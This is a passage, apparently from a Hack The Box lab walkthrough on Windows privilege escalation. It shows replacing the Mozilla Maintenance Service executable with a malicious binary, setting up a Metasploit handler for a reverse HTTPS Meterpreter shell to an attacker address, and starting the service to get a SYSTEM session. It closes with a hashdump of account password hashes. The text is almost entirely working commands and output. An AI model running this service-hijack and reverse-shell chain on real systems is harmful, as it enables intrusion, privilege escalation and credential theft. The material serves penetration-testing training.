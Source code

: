 9) Replacing File with Malicious Binary

```
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.
```

10) Metasploit Resource Script

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

11) Launching Metasploit with Resource Script

```
sudo msfconsole -r handler.rc 

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.10.14.3
set LPORT 8443
exploit

```

12) Starting the Service

```
net start MozillaMaintenance 

The service is not responding to the control function

More help is available by typing NET HELPMSG 2186
```

13) Receiving a Meterpreter Session

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-WS02
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 6
Meterpreter     : x64/windows


meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
```